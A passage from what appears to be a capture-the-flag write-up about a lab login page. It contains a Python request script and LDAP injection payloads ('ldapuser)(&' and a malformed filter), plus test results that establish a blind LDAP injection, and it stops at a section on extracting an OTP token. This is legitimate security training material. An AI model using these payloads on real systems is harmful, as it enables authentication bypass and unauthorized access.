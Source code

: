 ```python
		print("Payload: {}".format(data['inputUsername']))
		
		r = requests.post("http://ctf.htb/login.php", data=data, proxies=proxy)
		m = re.search(r'<form action="/login.php" method="post" >\s+<div class="form-group row">\s+<div class="col-sm-10">\s+(.*)</div>', r.text)
		if m:
			try:
				print(m.group(1))				
			except IndexError:
				print("Something weird happened")

if __name__== "__main__":
	main()
```	

Test #1: Invalid username, no injection
```
> invalid
Payload: invalid
User invalid not found
```
Result: User is not found as expected.

Test #2: Valid username, no injection
```
> ldapuser
Payload: ldapuser
Cannot login
```
Result: User is found but I get an error message because OTP is invalid.

Test #3: Basic injection assuming a search filter like `(&(user) **rest of the query**`
```
> ldapuser)(&
Payload: ldapuser%29%28%26
Cannot login
```
Result: I've successfully identified that LDAP injection is possible since the query returns a result

Test #4: Injection with invalid query to test behaviour of the page when it errors out
```
> ldapuser)(bad_ldap_search)))))(((((
Payload: ldapuser%29%28bad_ldap_search%29%29%29%29%29%28%28%28%28%28

```
Result: I don't get anything back, the page basically refreshes when it gets an invalid query. This is what I saw earlier when fuzzing the page with invalid characters. The characters are not necessarily invalid but they resulted in an invalid LDAP search filter when I was fuzzing.

Conclusion: This is a blind LDAP injection since the page doesn't return the results of the query in a field on the page or in an error message

### LDAP injection to get the OTP token
